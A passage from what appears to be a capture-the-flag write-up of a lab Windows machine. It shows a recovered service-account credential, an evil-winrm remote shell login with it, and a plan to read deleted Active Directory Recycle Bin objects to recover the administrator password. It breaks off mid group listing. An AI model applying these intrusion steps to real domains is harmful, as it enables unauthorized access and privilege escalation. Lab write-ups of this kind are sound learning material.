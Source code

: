 ![](../assets/Pasted%20image%2020250510140553.png)

So `arksvc:w3lc0meFr31nd`

Reenter with the `arksvc` user.

```shell
$ evil-winrm -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami
cascade\arksvc
```

This user is in the `AD Recycle Bin` group and we know that a user `TempAdmin` with the same password as `administrator` has been deleted, so by enumerating deleted objects we can get the admin's password.

```shell
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
```